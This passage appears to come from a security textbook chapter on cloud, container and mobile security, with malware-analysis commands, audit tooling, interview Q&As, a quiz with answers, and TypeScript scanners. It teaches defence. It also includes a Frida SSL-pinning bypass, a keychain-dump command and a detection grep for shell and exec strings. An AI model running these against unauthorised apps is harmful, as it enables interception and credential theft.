| Spyware | Steals data, tracks location | Pegasus, FlexiSPY | Side-loaded, enterprise abuse |
| Ransomware | Encrypts files, demands payment | Android/Filecoder | Third-party app stores |
| Banking trojan | Steals banking credentials | EventBot, Anubis, TeaBot | Phishing links |
| Adware | Displays aggressive ads | HiddenAds, MobiDash | Google Play (camouflaged) |
| Cryptominer | Mines cryptocurrency | Android/Coinminer | Repackaged apps |
| Trojan dropper | Downloads additional payload | Agent Smith | Repackaged legitimate apps |
| RAT (Remote Access) | Full device control | Android/SpyNote | SMS phishing |

### Mobile Malware Analysis Methodology

**Step 1: Static Analysis**
```bash
# Extract APK
unzip -q suspicious.apk -d apk_extracted/
ls apk_extracted/  # classes.dex, AndroidManifest.xml, resources.arsc, lib/

# Decompile to Java
jadx -d decompiled/ suspicious.apk

# Check manifest for suspicious permissions
aapt dump permissions suspicious.apk
# Dangerous combinations:
# - RECEIVE_SMS + INTERNET + READ_CONTACTS
# - CAMERA + RECORD_AUDIO + SYSTEM_ALERT_WINDOW
# - BIND_ACCESSIBILITY_SERVICE + READ_LOGS

# Check for known malware signatures
unzip -l suspicious.apk | grep -i malware
# Look for: packed code, obfuscated class names (a.a.a), strange entry points
```

**Step 2: Dynamic Analysis**
```bash
# Run in isolated environment (Android emulator)
emulator -avd analysis_device -no-window -no-audio

# Install and execute
adb install suspicious.apk

# Monitor network traffic
adb shell tcpdump -i any -w traffic.pcap

# Monitor process creation
adb shell while true; do ps | grep suspicious; sleep 1; done

# Monitor file system changes
adb shell inotifywait -m -r /data/data/com.suspicious.app/

# Check for privilege escalation attempts
adb shell dmesg | grep -E "root|su|exploit|segfault"
```

**Step 3: Network Analysis**
```bash
# Analyze captured traffic
tcpdump -r traffic.pcap -X

# Look for:
# - C2 server communication
# - Data exfiltration (base64-encoded data transmissions)
# - Encryption key exchange
# - Command-and-control heartbeat patterns

# Decrypt HTTPS traffic (Burp Suite)
# (Requires CA certificate installation on emulator)
```

### Repackaging Detection

```bash
# Compare original vs repackaged APK
# Step 1: Get original app signature
jarsigner -verify -verbose -certs original.apk

# Step 2: Get repackaged app signature
jarsigner -verify -verbose -certs suspicious_copy.apk

# Step 3: Compare signatures
# If different -> repackaged app (fake version with malware)

# Check for code injection
# Look for unusual strings in decompiled code
grep -r "http://|https://|\.onion|\.bit|C2|shell|exec|Runtime" decompiled/
```

### In-App Purchase / Billing Fraud

| Fraud Type | Description | Detection |
|------------|-------------|-----------|
| Receipt spoofing | Fake purchase receipts | Server-side receipt validation |
| Frida bypass | Runtime manipulation of purchase flow | Integrity checks, anti-hooking |
| APK repackaging | Modified app bypassing payment | App signing verification |
| Emulator fraud | Fake transactions from emulators | Device fingerprint, SafetyNet |
| Chargeback fraud | Disputed legitimate purchases | Purchase pattern analysis |

**Server-Side Receipt Validation (iOS):**
```python
import requests

def validate_app_store_receipt(receipt_data, production=True):
    """
    Validate iOS in-app purchase receipt on the server side.
    DO NOT trust client-side receipt validation alone.
    """
    if production:
        url = "https://buy.itunes.apple.com/verifyReceipt"
    else:
        url = "https://sandbox.itunes.apple.com/verifyReceipt"

    response = requests.post(url, json={
        "receipt-data": receipt_data,
        "password": "YOUR_SHARED_SECRET",
        "exclude-old-transactions": True
    })

    result = response.json()
    if result['status'] != 0:
        return False

    # Verify product ID and quantity
    for receipt in result['receipt']['in_app']:
        if receipt['product_id'] != 'com.example.product.subscription':
            return False

    # Verify transaction is not reused
    if is_transaction_already_used(receipt['transaction_id']):
        return False  # Replay attack

    return True
```

**Complexity Analysis — Receipt Validation:**
- **Client-side only:** O(1) — trivially bypassed by Frida/objection
- **Server-side validation:** O(1) — one HTTP call, secure
- **Transaction dedup:** O(1) — lookup in database (indexed by transaction_id)

---

## Practical Examples — Full Command Reference

### Cloud IAM Policy Analysis

```bash
# AWS IAM Access Analyzer - find over-permissive access
aws accessanalyzer list-findings --analyzer-arn arn:aws:access-analyzer:us-east-1:ACCOUNT:analyzer/my-analyzer

# AWS IAM simulate principal policy
aws iam simulate-principal-policy \
  --policy-source-arn arn:aws:iam::ACCOUNT:role/developer \
  --action-names "s3:PutObject" "ec2:RunInstances" "iam:CreatePolicyVersion"

# Check for unused IAM roles (30+ days)
aws iam list-roles --query 'Roles[?CreateDate<=`2023-01-01`].[RoleName,CreateDate]'

# S3 bucket policy analysis
aws s3api get-bucket-policy-status --bucket my-bucket
# {"PolicyStatus":{"IsPublic":false}}

aws s3api get-bucket-acl --bucket my-bucket
aws s3api get-bucket-policy --bucket my-bucket
```

### Docker Security Audit

```bash
# Full docker-bench-security scan
docker run --pid=host --net=host --cap-add=audit_control \
  -v /var/lib:/var/lib:ro -v /var/run/docker.sock:/var/run/docker.sock:ro \
  -v /etc:/etc:ro docker/docker-bench-security

# Check running containers
docker ps --quiet | xargs docker inspect --format '{{.Name}} {{.HostConfig.Privileged}}'

# Check container capabilities
docker run --rm alpine capsh --print

# Scan all local images
docker images --quiet | xargs -L1 trivy image
```

### Kubernetes Security Commands

```bash
# Run kube-bench CIS benchmark
kubectl apply -f https://raw.githubusercontent.com/aquasecurity/kube-bench/main/job.yaml
kubectl logs job/kube-bench

# Apply Pod Security Standards
kubectl label --overwrite ns production pod-security.kubernetes.io/enforce=restricted

# Create RBAC role and binding
kubectl create role pod-reader --verb=get,list,watch --resource=pods
kubectl create rolebinding pod-reader-binding --role=pod-reader --serviceaccount=default:my-sa

# Apply network policy
kubectl apply -f network-policy.yaml

# Check admission controller status
kubectl get validatingwebhookconfigurations

# Verify secrets encryption
kubectl get apiserver -o yaml | grep encryption
```

### Trivy Container Scanning

```bash
# Scan a single image
trivy image nginx:1.21.6

# Scan with extensive output
trivy image --severity CRITICAL,HIGH --format sarif -o nginx-scan.sarif nginx:1.21.6

# Scan a Kubernetes cluster
trivy k8s cluster --severity CRITICAL,HIGH

# Scan a local directory (rootfs)
trivy filesystem --severity HIGH /var/lib/docker
```

### Falco Runtime Detection

```bash
# Run Falco
falco -c /etc/falco/falco.yaml

# Test: spawn shell in container
docker run --rm -it alpine sh -c "id"

# Expected alert:
# 23:14:05.123456789: Warning Shell spawned in container
# (user=root container_id=abc123 image=alpine shell=sh pid=42)

# View Falco logs
journalctl -u falco -n 50
```

### Mobile App Commands

```bash
# APK decompilation
jadx -d decompiled/ app.apk

# Check manifest permissions
aapt dump permissions app.apk

# iOS IPA analysis with objection
objection -g com.example.app explore
ios keychain dump
ios nsuserdefaults get

# Set Android proxy for traffic interception
adb shell settings put global http_proxy 10.0.2.2:8080

# Frida SSL pinning bypass
frida -U -f com.example.app -l frida-scripts/ssl-bypass.js --no-pause
```

---

## Interview Corner

### Cloud Security Interview Q&A

**Q1: Explain the Shared Responsibility Model and give an example of a common misconfiguration.**

**Answer:** The Shared Responsibility Model divides security responsibilities between the CSP and the customer. Security *of* the Cloud (physical, hardware, networking) is the provider's responsibility. Security *in* the Cloud (data, applications, IAM, network configuration) is the customer's. Example: S3 bucket with public read access — AWS secures the S3 service itself, but the customer is responsible for bucket policies. Leaving a bucket public is a customer-side misconfiguration — and the most common cause of cloud data breaches.

**Complexity:** O(1) to understand the concept; O(n) to implement across n services.

**Q2: What is the difference between CSPM, CWPP, CASB, and CIEM?**

**Answer:**
- **CSPM** (Cloud Security Posture Management): Checks misconfigurations and compliance against benchmarks (CIS, NIST, SOC 2). Tools: AWS Config, Wiz, Prisma Cloud.
- **CWPP** (Cloud Workload Protection Platform): Protects workloads (VMs, containers, serverless) with anti-malware, intrusion detection, and FIM. Tools: CrowdStrike, Trend Micro, Falco.
- **CASB** (Cloud Access Security Broker): Sits between users and cloud apps for DLP, shadow IT discovery, and access control. Modes: API, forward proxy, reverse proxy. Tools: Netskope, Zscaler, McAfee MVISION.
- **CIEM** (Cloud Infrastructure Entitlement Management): Manages cloud IAM permissions at scale — detects unused permissions, over-privileged roles, and cross-account access paths. Tools: AWS IAM Access Analyzer, Ermetic, CloudSplainer.

**Edge Case:** These tools overlap. A modern CNAPP (Cloud Native Application Protection Platform) integrates CSPM + CWPP + CIEM capabilities.

**Q3: How would you secure a Kubernetes cluster in production?**

**Answer:** A 10-point K8s security checklist:
1. **RBAC:** Least privilege for all service accounts, users, and groups. Use Role over ClusterRole where possible.
2. **Pod Security Standards:** Enforce `restricted` level on namespaces via labels.
3. **Network Policies:** Default deny ingress/egress, allow only required east-west traffic.
4. **Admission Controllers:** OPA/Gatekeeper or Kyverno for custom policies (e.g., "all images from trusted registry").
5. **Secrets Management:** External secrets operator (AWS Secrets Manager, HashiCorp Vault), encrypt etcd.
6. **Image Scanning:** Trivy or Clair for vulnerability scanning in CI/CD pipeline.
7. **Runtime Security:** Falco for syscall-level threat detection.
8. **CIS Benchmark:** Run kube-bench weekly.
9. **Audit Logging:** Enable Kubernetes audit log, ship to SIEM.
10. **Node Security:** Minimize node access, use OS-level hardening, disable SSH.

**Q4: What caused the Capital One 2019 breach and how could it have been prevented?**

**Answer:** A SSRF vulnerability in ModSecurity WAF allowed the attacker to query the EC2 metadata endpoint (`169.254.169.254`), retrieve IAM role credentials, and access S3 buckets containing 100M+ customer records.

**Prevention:**
1. **IMDSv2 mandatory** — requires session token for metadata access.
2. **Least privilege IAM** — WAF role should NOT have S3:ListAllBuckets.
3. **WAF rules to block SSRF** — block requests to 169.254.169.254 and other internal IPs.
4. **Network-level protection** — metadata endpoint access restricted via hop limit.
5. **SCP** — Service Control Policy to limit resource access at the OU level.

**Q5: Compare serverless security vs traditional VM security.**

**Answer:**

| Aspect | Serverless | Traditional VM |
|--------|-----------|----------------|
| OS patching | Provider managed | Customer responsibility |
| Attack surface | Event-driven, short-lived | Always-on, persistent |
| IAM complexity | Per-function roles | Per-instance roles |
| Dependency risk | High (includes runtime deps) | Moderate (package manager) |
| Cold start attacks | Possible (container reuse) | Not applicable |
| DDoS mitigation | Automatic scaling + throttling | Auto-scaling groups + WAF |
| Debugging | Limited (no SSH) | Full (SSH, RDP) |
| Cost model | Pay-per-invocation | Pay-per-hour |

**Key insight:** Serverless shifts responsibility from infrastructure to code + IAM. You no longer patch kernels, but you must validate every event input.

### Container & Kubernetes Interview Q&A

**Q6: What is a container escape and how do you prevent it?**

**Answer:** Container escape is when a process breaks out of the container namespace isolation to access the host OS. Attack vectors include:
- Kernel exploit via a vulnerable syscall (CVE-2022-0492 — cgroup escape).
- Misconfigured capabilities (CAP_SYS_ADMIN, CAP_DAC_OVERRIDE).
- Mounting host paths (docker.sock, /proc, /sys).
- Privileged container (—privileged flag).

**Prevention (defense in depth):**
1. Run as non-root (`USER appuser` in Dockerfile).
2. Drop all capabilities (`—cap-drop ALL —cap-add NET_BIND_SERVICE`).
3. Use seccomp profile (default or custom).
4. Enable AppArmor/SELinux.
5. Read-only root filesystem (`—read-only`).
6. Pod Security Standards (`restricted` level).
7. User namespace remapping (re-map container UID 0 to non-privileged host UID).

**Q7: What is the difference between a Role and a ClusterRole in Kubernetes?**

**Answer:**
- **Role:** Namespaced — grants permissions within a single namespace. Use for app-specific access (e.g., "developer can manage pods in namespace `staging`").
- **ClusterRole:** Cluster-wide — grants permissions across all namespaces (resources like pods, services), cluster-scoped resources (nodes, PVs, CSIDrivers), and non-resource endpoints (/healthz, /livez).

**Decision rule:** If the resource is namespaced (pods, services, deployments) and the access should be limited to one namespace, use Role + RoleBinding. If the resource is cluster-scoped (nodes, storage classes) or the access should apply globally, use ClusterRole + ClusterRoleBinding.

**Q8: How does Falco detect runtime threats in containers?**

**Answer:** Falco uses kernel-level monitoring (eBPF or kernel module) to intercept every syscall made by userspace processes. The rule engine evaluates each syscall event against a set of rules defined in YAML.

**Rule structure:**
- **condition:** Boolean expression combining syscall fields (evt.type, proc.name, container.id, fd.name).
- **output:** Alert message template with dynamic fields.
- **priority:** EMERGENCY, ALERT, CRITICAL, ERROR, WARNING, NOTICE, INFO, DEBUG.
- **tags:** MITRE ATT&CK mappings, container, filesystem, etc.

**Example detection:** When a shell is spawned inside a container (`spawned_process and container and shell_procs`), Falco matches the execve syscall and fires a WARNING alert.

**Performance overhead:** 1-3% CPU on standard workloads. Can handle 100K+ events/second.

**Q9: What is the serverless N+1 problem and how do you solve it?**

**Answer:** The N+1 problem occurs when a serverless function calls another function per-item in a loop. For example:
```
API Gateway -> Lambda A (processes 1000 items -> calls Lambda B for each item)
Lambda B (calls Lambda C for each sub-item)
```
This creates exponential cost (1000 Lambda B invocations * N sub-items) and latency (sequential execution).

**Solutions:**
1. **Step Functions** — orchestrate workflow with parallel execution branches.
2. **SQS + batch processing** — buffer items in SQS, process in batch of 10 per invocation.
3. **DynamoDB Streams + Lambda** — fan-out without recursive function calls.
4. **EventBridge Pipes** — source-to-target with optional enrichment.

**Q10: Explain envelope encryption and why it's used in cloud environments.**

**Answer:** Envelope encryption encrypts data with a Data Encryption Key (DEK), then encrypts the DEK with a Key Encryption Key (KEK) stored in KMS/HSM.

**Benefits:**
1. **Performance:** DEK operations are local AES-NI (fast); only KEK operations require KMS API call.
2. **Key rotation:** Re-encrypt DEK with new KEK without re-encrypting data. DEK stays the same; only the wrapped version changes.
3. **Security:** KEK never leaves the KMS/HSM boundary. Even with access to encrypted data and encrypted DEK, attacker cannot decrypt without KMS access.
4. **Scale:** One KEK can protect millions of DEKs. Each data item (or user, or session) can have a unique DEK.

**Where used:** S3 SSE-KMS, EBS encryption, RDS encryption, client-side encryption libraries (AWS Encryption SDK).

### Mobile Security Interview Q&A

**Q11: How does iOS sandboxing differ from Android sandboxing?**

**Answer:**
- **iOS:** Container-based sandboxing. Each app has a container directory (`/var/mobile/Containers/Data/Application/<UUID>/`). Apps cannot access other apps' containers. System files are protected by sandbox profiles (TrustedBSD MAC). Mandatory code signing ensures only Apple-certified binaries execute.
- **Android:** UID-based sandboxing. Each app runs as a unique Linux user (u0_a123). App A's files are owned by user A; user B cannot read them. SELinux enforces MAC on top of Linux DAC (discretionary access control).

**Key difference:** iOS sandboxing is container-based with hardware-backed encryption. Android sandboxing is UID-based with SELinux MAC. Both effectively isolate apps, but iOS adds mandatory code signing (only Apple-signed code runs) which Android does not enforce for side-loaded apps.

**Q12: What is the FORCEDENTRY vulnerability and why was it significant?**

**Answer:** FORCEDENTRY (CVE-2021-30860) was a zero-click iOS exploit used by NSO Group's Pegasus spyware. It exploited an integer overflow in CoreGraphics PDF parser triggered by receiving an iMessage — no user interaction required.

**Significance:**
1. First widely-known zero-click iOS exploit — no user tap needed.
2. Affected fully-patched iOS devices (iOS 14.6).
3. Demonstrated that sandbox + code signing alone are insufficient against state-level actors.
4. Led directly to BlastDoor isolation architecture in iOS 14+ (iMessage processing in separate sandboxed daemon).
5. Showed the arms race: hardware security (Secure Enclave, PAC) vs software exploitation (kernel vulns, parser bugs).

**Q13: How would you test a mobile app for insecure data storage (M7)?**

**Answer:** A systematic M7 testing methodology:
1. **Static analysis:** Decompile APK (jadx) or analyze IPA, search for hardcoded credentials, API keys, tokens in source.
2. **SharedPreferences/NSUserDefaults:** Run app, inspect for plaintext credentials in `shared_prefs/*.xml` (Android) or `NSUserDefaults` (iOS via objection).
3. **SQLite databases:** Check for unencrypted PII in `.db` files.
4. **Logcat/console logs:** Monitor `adb logcat` for sensitive data in logs.
5. **Cache directory:** Check WebView cache, image cache for sensitive content.
6. **Keychain/Keystore:** Verify accessibility level — `kSecAttrAccessibleWhenUnlockedThisDeviceOnly` for iOS, `EncryptedSharedPreferences` for Android.
7. **Backup:** Check if app allows backup (android:allowBackup="true") — sensitive data may leak via ADB backup.
8. **Clipboard:** Verify app doesn't copy sensitive data to clipboard (accessible by other apps).

**Q14: What is MDM and how does it differ from MAM?**

**Answer:**
- **MDM** (Mobile Device Management): Manages the entire device — passcode policy, encryption enforcement, remote wipe, network configuration, app whitelist/blacklist. Used for corporate-owned devices where the company has full control.
- **MAM** (Mobile Application Management): Manages only specific applications — app configuration, data leakage prevention (copy/paste restrictions, screen capture blocking), app-level wipe. Used for BYOD scenarios where the device is personal but work apps need protection.

**BYOD best practice:** Use MAM + OS-level work profile (Android Work Profile, iOS User Enrollment) rather than full MDM. This protects corporate data without compromising the employee's privacy.

**Q15: Explain the OWASP Mobile Top 10 M5 vulnerability and how to fix it.**

**Answer:** M5 — Insecure Communication: Mobile app transmits sensitive data over an insecure channel (unencrypted HTTP, weak TLS, missing certificate validation).

**Detection:**
1. Intercept traffic with Burp Suite.
2. Look for HTTP (not HTTPS) connections.
3. Check for missing certificate pinning (client trusts any CA-signed cert).
4. Verify hostname validation is enabled.
5. Check for weak cipher suites (TLS 1.0/1.1, RC4, 3DES).

**Fix:**
1. Enforce HTTPS-only (App Transport Security on iOS, network_security_config.xml on Android).
2. Implement certificate pinning (TrustKit for iOS, OkHttp CertificatePinner for Android).
3. Validate hostnames against a known allowlist.
4. Disable cleartext traffic (android:usesCleartextTraffic="false").
5. Use TLS 1.2+ with strong cipher suites.

---

## Applications in Real Systems

| Domain | Cloud Security Application | Mobile Security Application |
|--------|--------------------------|----------------------------|
| Banking | IAM fine-grained policies, KMS encryption, PCI compliance via CSPM | Mobile banking app security (M1-M10), transaction signing, biometric auth |
| Healthcare | HIPAA-compliant S3, CloudTrail audit, HSM for PHI keys | Health app data encryption, HIPAA-compliant local storage |
| E-commerce | WAF, API Gateway rate limiting, SCP for multi-account | In-app purchase validation, payment tokenization, SSL pinning |
| Enterprise SaaS | CIEM for multi-account IAM, CASB for shadow IT | MDM policy enforcement, MAM for enterprise apps |
| IoT/Edge | Container security for edge nodes, KMS for device certificates | Mobile app for device control (Bluetooth, local API security) |
| Gaming | Auto-scaling + security groups, multi-region deployment | Anti-tamper, fraud detection, account security (MFA) |
| Government | FedRAMP compliance, HSM for classified data, SCP enforcement | Device compliance, app vetting, certified hardware |

---

## Summary

- **Cloud Service Models:** IaaS, PaaS, SaaS — each shifts responsibility boundaries. Know exactly what you secure in each model.
- **Shared Responsibility:** Provider secures *of* the cloud; customer secures *in* the cloud. Common failure: assuming the provider secures your data.
- **Virtualization Security:** Hypervisor attacks (VM escape, side-channel), VM sprawl, hyperjacking. Isolation is the primary concern.
- **Container Security:** Docker CIS benchmarks, K8s RBAC, Pod Security Standards, network policies, admission controllers, Falco runtime.
- **Serverless Security:** OWASP Serverless Top 10 — event injection, excessive permissions, insecure deployment.
- **Cloud Compliance:** CIS benchmarks (AWS/Azure/GCP), CSPM for posture, CWPP for workloads, CASB for access, CIEM for entitlements.
- **Cloud IAM:** Least privilege, policy simulation, Access Analyzer, SCPs. Deny always wins.
- **Cloud Data Protection:** KMS, HSM, envelope encryption. Never store encrypted data and key together.
- **Case Studies:** Capital One (SSRF+IMDSv1), CodeCov (container layers leaked secrets), Kaseya (supply chain ransomware), Pegasus FORCEDENTRY (zero-click iOS exploit).
- **Mobile OS Security:** Android (UID sandbox + SELinux MAC) vs iOS (container sandbox + mandatory code signing + Secure Enclave).
- **Mobile App Security:** OWASP Mobile Top 10 (M5: insecure communication, M7: insecure storage are most common).
- **MDM/BYOD:** Full device management vs app-level management. Work Profile (Android) and User Enrollment (iOS) best balance privacy and security.
- **Mobile Malware:** Static + dynamic + network analysis. Repackaging detection via signature comparison.
- **Interview Corner:** 15 Q&As covering cloud, container/K8s, and mobile security.

---

## Exercises

### Review Questions
1. In the Shared Responsibility Model for PaaS, who is responsible for patching the runtime environment?
2. What is the difference between IMDSv1 and IMDSv2? Why did AWS make IMDSv2 the default?
3. Explain how a Kubernetes Network Policy enforces micro-segmentation.
4. What is the difference between KMS and HSM? When would you use each?
5. How does Android's Work Profile protect corporate data without compromising user privacy?
6. What is the purpose of Falco's syscall monitoring? How does it differ from vulnerability scanning?
7. Explain the FORCEDENTRY exploit chain from initial access to data exfiltration.

### Application Problems
1. You are migrating a web application from IaaS (EC2) to serverless (Lambda + API Gateway). Map the security controls that change for each OWASP category.
2. Design a least-privilege IAM policy for a CI/CD pipeline that deploys to EKS, reads from ECR, and writes logs to CloudWatch.
3. Create a Kubernetes Network Policy that isolates a PCI-DSS payment processing namespace from all other namespaces except a monitoring namespace.
4. Write an Android application snippet that uses EncryptedSharedPreferences and explain each configuration parameter.
5. Design a Falco rule that detects a container attempting to mount the host's Docker socket.

### Challenge Problems
1. Research and explain the "Cloud Hopper" attack (APT10, 2014-2017). How did the attackers exploit managed service providers? Map each phase to the MITRE ATT&CK framework.
2. Design a zero-trust architecture for a mobile workforce. Include: conditional access policies, device compliance rules, app protection policies, and data loss prevention controls for both iOS and Android devices.
3. Design a secure CI/CD pipeline that uses ephemeral credentials (OIDC), container image signing (Cosign), and admission controller enforcement (Kyverno) to prevent attackers from injecting malicious code through the build pipeline.

### Concept Comparison

| Concept | Tool/Service | AWS | Azure | GCP |
|---------|-------------|-----|-------|-----|
| Key Management | KMS | AWS KMS | Azure Key Vault | Cloud KMS |
| Hardware Security | HSM | CloudHSM | Azure Dedicated HSM | Cloud HSM |
| Container Registry | Registry | ECR | ACR | Artifact Registry |
| Container Orchestration | K8s | EKS | AKS | GKE |
| Serverless Compute | Functions | Lambda | Azure Functions | Cloud Functions |
| WAF | Web Firewall | AWS WAF | Azure WAF | Cloud Armor |
| CSPM | Posture Mgmt | AWS Config | Azure Policy | CSPM + Security Command Center |
| CIEM | Entitlements | IAM Access Analyzer | Entra Permissions Mgmt | Policy Analyzer |
| Secrets | Secrets Mgmt | AWS Secrets Manager | Azure Key Vault | Secret Manager |
| Runtime Detection | Container Sec | GuardDuty EKS | Defender for Containers | GKE Security |

### Cross-Application Matrix

| Domain | Cloud Application | Mobile Application | Integration Security |
|--------|------------------|-------------------|---------------------|
| IAM | AWS IAM roles, SCP | App permissions (Android/iOS) | Cognito User Pools + Mobile SDK |
| Networking | VPC, security groups | Cellular/WiFi connectivity | AWS Client VPN + Mobile device |
| Data Protection | KMS, S3 server-side encryption | Keychain, Keystore, EncryptedSharedPreferences | KMS + mobile SDK encryption |
| Monitoring | CloudTrail, CloudWatch | Crashlytics, Firebase Analytics | CloudWatch + mobile telemetry |
| Compliance | CIS benchmarks | MDM compliance policies | AWS Config + MDM policy sync |
| Incident Response | GuardDuty, Security Hub | Play Integrity, App attestation | SIEM + mobile threat feed |

## Chapter Quiz

1. In IaaS, who patches the guest OS?
   - A) Cloud provider
   - B) Customer
   - C) Shared between provider and customer
   - D) No one — IaaS doesn't have guest OS

2. Which tool runs a CIS benchmark against a Kubernetes cluster?
   - A) kube-bench
   - B) kube-hunter
   - C) Trivy
   - D) Falco

3. The Capital One 2019 breach was caused by:
   - A) SQL injection
   - B) SSRF to EC2 metadata endpoint
   - C) Weak S3 bucket password
   - D) Compromised employee credentials

4. OWASP Mobile Top 10 M7 is:
   - A) Insecure Communication
   - B) Insecure Data Storage
   - C) Improper Platform Usage
   - D) Insufficient Cryptography

5. Which Android component enforces mandatory access control?
   - A) Android Permission Manager
   - B) SELinux
   - C) Google Play Protect
   - D) SafetyNet

6. What does CIEM focus on?
   - A) Container image vulnerability scanning
   - B) Cloud IAM permissions management at scale
   - C) Cloud workload anti-malware protection
   - D) Cloud network security group management

7. The FORCEDENTRY exploit targeted which iOS component?
   - A) Safari WebKit
   - B) CoreGraphics PDF parser
   - C) iMessage BlastDoor
   - D) Secure Enclave

<details>
<summary>Answers&lt;/summary&gt;
1. B, 2. A, 3. B, 4. B, 5. B, 6. B, 7. B
</details>

---

## TypeScript Implementations

### Cloud Security Posture Scanner

```typescript
/**
 * Cloud Security Posture Scanner
 *
 * Scans cloud resources for common misconfigurations and compliance violations
 * based on the Shared Responsibility Model and CIS benchmarks.
 * Checks include: public S3 buckets, unencrypted EBS volumes, security groups
 * with 0.0.0.0/0 ingress, and missing MFA on root accounts.
 */

interface CloudResource {
  id: string;
  type: string;
  config: Record<string, unknown>;
  region: string;
  tags: Record<string, string>;
}

interface ComplianceFinding {
  resourceId: string;
  rule: string;
  severity: 'low' | 'medium' | 'high' | 'critical';
  description: string;
  remediation: string;
}

class CloudPostureScanner {
  private rules: Map<string, (resource: CloudResource) => ComplianceFinding | null>;

  constructor() {
    this.rules = new Map();
    this.registerBuiltinRules();
  }

  private registerBuiltinRules(): void {
    // Rule 1: Check for public S3 buckets (BucketPolicy allowing *)
    this.rules.set('s3-public-bucket', (resource: CloudResource) => {
      if (resource.type !== 's3-bucket') return null;
      const policy = resource.config['bucketPolicy'] as string;
      if (policy && policy.includes('"Principal": "*"')) {
        return {
          resourceId: resource.id,
          rule: 'S3-PUBLIC-001',
          severity: 'critical',
          description: `S3 bucket ${resource.id} has a bucket policy allowing public access`,
          remediation:
            'Remove the Principal: "*" statement and use specific IAM roles or AWS accounts',
        };
      }
      return null;
    });

    // Rule 2: Check for unencrypted EBS volumes
    this.rules.set('ebs-unencrypted', (resource: CloudResource) => {
      if (resource.type !== 'ebs-volume') return null;
      if (!resource.config['encrypted']) {
        return {
          resourceId: resource.id,
          rule: 'EBS-ENCRYPT-001',
          severity: 'high',
          description: `EBS volume ${resource.id} is not encrypted at rest`,
          remediation:
            'Enable EBS encryption by default in the region or create an encrypted copy of the volume',
        };
      }
      return null;
    });

    // Rule 3: Check for security groups with 0.0.0.0/0
    this.rules.set('sg-wide-open', (resource: CloudResource) => {
      if (resource.type !== 'security-group') return null;
      const ingressRules = resource.config['ipPermissions'] as Array<{
        ipRanges: Array<{ cidrIp: string }>;
        fromPort: number;
        toPort: number;
        ipProtocol: string;
      }>;
      if (!ingressRules) return null;
      for (const rule of ingressRules) {
        for (const range of rule.ipRanges || []) {
          if (
            range.cidrIp === '0.0.0.0/0' &&
            rule.fromPort !== 443 &&
            rule.fromPort !== 80
          ) {
            return {
              resourceId: resource.id,
              rule: 'SG-RESTRICT-001',
              severity: 'high',
              description: `Security group ${resource.id} allows 0.0.0.0/0 on port ${rule.fromPort}`,
              remediation:
                'Restrict ingress to known IP ranges or use a load balancer for public traffic',
            };
          }
        }
      }
      return null;
    });

    // Rule 4: Check for no MFA on root account
    this.rules.set('root-no-mfa', (resource: CloudResource) => {
      if (resource.type !== 'iam-user') return null;
      if (resource.config['userName'] === 'root' && !resource.config['mfaEnabled']) {
        return {
          resourceId: resource.id,
          rule: 'IAM-MFA-001',
          severity: 'critical',
          description: 'Root account does not have MFA enabled',
          remediation:
            'Enable MFA for the root account immediately via the AWS IAM console',
        };
      }
      return null;
    });
  }

  /** Registers a custom rule at runtime */
  addRule(
    name: string,
    fn: (resource: CloudResource) => ComplianceFinding | null
  ): void {
    this.rules.set(name, fn);
  }

  /** Runs all registered rules against the given resources */
  scan(resources: CloudResource[]): ComplianceFinding[] {
    const findings: ComplianceFinding[] = [];
    for (const resource of resources) {
      for (const [, ruleFn] of this.rules) {
        const finding = ruleFn(resource);
        if (finding) {
          findings.push(finding);
        }
      }
    }
    return findings;
  }
}

// --- Example usage ---
const scanner = new CloudPostureScanner();
const resources: CloudResource[] = [
  {
    id: 'my-bucket',
    type: 's3-bucket',
    config: {
      bucketPolicy:
        '{"Statement":[{"Principal":"*","Effect":"Allow","Action":"s3:GetObject","Resource":"arn:aws:s3:::my-bucket/*"}]}',
    },
    region: 'us-east-1',
    tags: { Environment: 'Production' },
  },
  {
    id: 'vol-abc123',
    type: 'ebs-volume',
    config: { encrypted: false, size: 100 },
    region: 'us-west-2',
    tags: {},
  },
  {
    id: 'sg-web',
    type: 'security-group',
    config: {
      ipPermissions: [
        {
          ipRanges: [{ cidrIp: '0.0.0.0/0' }],
          fromPort: 22,
          toPort: 22,
          ipProtocol: 'tcp',
        },
      ],
    },
    region: 'eu-central-1',
    tags: {},
  },
  {
    id: 'root-account',
    type: 'iam-user',
    config: { userName: 'root', mfaEnabled: false },
    region: 'global',
    tags: {},
  },
];

const findings = scanner.scan(resources);
console.log(`Found ${findings.length} compliance violations:`);
findings.forEach((f) =>
  console.log(`  [${f.severity.toUpperCase()}] ${f.rule}: ${f.description}`)
);
```

### Container Security Scanner

```typescript
/**
 * Container Security Scanner
 *
 * Analyzes container images and runtime configurations for common security
 * misconfigurations including root execution, privileged mode, exposed secrets,
 * and missing security profiles (AppArmor, seccomp).
 */

interface ContainerImage {
  layers: string[];
  exposedPorts: number[];
  envVars: string[];
  entrypoint: string;
  user?: string;
  privileged?: boolean;
  appArmorProfile?: string;
  seccompProfile?: string;
  readOnlyRootFilesystem?: boolean;
  capabilities?: string[];
}

interface ContainerVuln {
  cve: string;
  severity: string;
  package: string;
  fixVersion: string;
}

class ContainerScanner {
  /** Scans image layers for known CVEs from a simulated vulnerability database */
  scanImage(image: ContainerImage): ContainerVuln[] {
    const vulns: ContainerVuln[] = [];

    // Simulated CVE database keyed by base image layer name
    const cveDatabase = new Map<string, ContainerVuln[]>([
      [
        'alpine:3.14',
        [
          {
            cve: 'CVE-2024-1234',
            severity: 'HIGH',
            package: 'libssl1.1',
            fixVersion: '1.1.1w-r0',
          },
        ],
      ],
      [
        'ubuntu:20.04',
        [
          {
            cve: 'CVE-2024-5678',
            severity: 'MEDIUM',
            package: 'libpam-modules',
            fixVersion: '1.3.1-5ubuntu4.7',
          },
        ],
      ],
      [
        'node:18-alpine',
        [
          {
            cve: 'CVE-2024-9012',
            severity: 'CRITICAL',
            package: 'npm',
            fixVersion: '9.8.1-r0',
          },
        ],
      ],
    ]);

    for (const layer of image.layers) {
      const layerVulns = cveDatabase.get(layer);
      if (layerVulns) {
        vulns.push(...layerVulns);
      }
    }
    return vulns;
  }

  /** Checks runtime configuration against CIS Docker Benchmark recommendations */
  checkConfig(image: ContainerImage): string[] {
    const issues: string[] = [];

    // Check 1: Running as root (CIS 4.1)
    if (!image.user || image.user === 'root') {
      issues.push(
        'CRITICAL: Container runs as root — use a non-root user directive (USER 1000)'
      );
    }

    // Check 2: Privileged mode (CIS 5.1)
    if (image.privileged) {
      issues.push(
        'CRITICAL: Privileged mode enabled — grants all host capabilities, bypassing namespace isolation'
      );
    }

